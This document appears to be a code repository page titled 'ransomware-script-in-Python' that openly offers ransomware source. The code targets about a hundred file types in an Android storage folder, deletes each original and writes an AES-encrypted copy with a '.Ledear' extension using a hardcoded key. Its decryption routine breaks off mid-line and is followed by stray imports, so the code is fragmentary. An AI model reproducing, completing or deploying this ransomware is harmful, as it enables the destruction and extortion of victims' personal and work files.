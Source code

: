 # ransomware-script-in-Python
ransomware script in Python
def jalan(z):
  for e in z + '\n':
     sys.stdout.write(e)
     sys.stdout.flush()
     time.sleep(0000000000.1)
lst_arq = ["*.jpg","*.apk","*.txt","*.pdf","*.odt","*.xls","*.png","*.jpg","*.jpeg","*.html","*.epub","*.mp3","*.gif","*.doc","*.odp","*.ods","*.json","*.xml,","*.mp4","*.avi","*.md","*.ogg","*.py","*.m4a","*.ini","*.c","*.cpp","*.jar","*.rb","*.java","*.pl","*.raw","*.eml","*.msg","*.tmp","*.js","*.conf","*.config","*.yaml","*.info","*.dll","*.vdx","*.cache","*.csv","*.sql","*.sh","*.run","*.php","*.src","*.zip","*.rar","*.7z","*.tgz","*.exe","*,xlsx","*.mid","*.css","*.aspx","*.fla","*.psd","*.swf","*.tif","*.dwg","*.smali","*.bac","*.img","*.xar","*.bak","*.ios","*.dat","*.data","*.lua","*.psw","*.bkf","*.fbk","*.xar","*.moz-backup","*.orig","*.new","*.001","*.bps","*.sasf","*.src","*.perl","*.c#", "*.go","*.csproj","*.bash","*.sh","*.asic","*.run","*.vb","*.vbe","*.kt","*.lsp","*.vba","*.nt","*.kt","*.hat","*.swb","*.mysql","*.ttf","*.log","*.JPG"]
try:
    ledear = Path.home() / "/sdcard/ransom"
except Exception:
    pass
os.chdir(ledear)
def criptografando():
    for files in lst_arq:
        for format_file in glob.glob(files):
            f = open(f'{ledear}/{format_file}', 'rb')
            file_data = f.read()
            f.close()
            os.remove(f'{ledear}/{format_file}')
            key = b"c1c50da9b950e3b3"  # 16 byts key 
            aes = pyaes.AESModeOfOperationCTR(key)
            crypto_data = aes.encrypt(file_data)
            new_file = format_file + ".Ledear"
            new_file = open(f'{ledear}/{new_file}', 'wb')
            new_file.write(crypto_data)
            new_file.close()
def descrypt(decrypt_file):
    try:
        for file in glob.glob('*.Ledear'):
            keybytes = decrypt_file.encode()
            name_file = open(file, 'rb')
            file_data = name_file.read





from tkinter import font
#pip install tkinter
#pip install pyaes
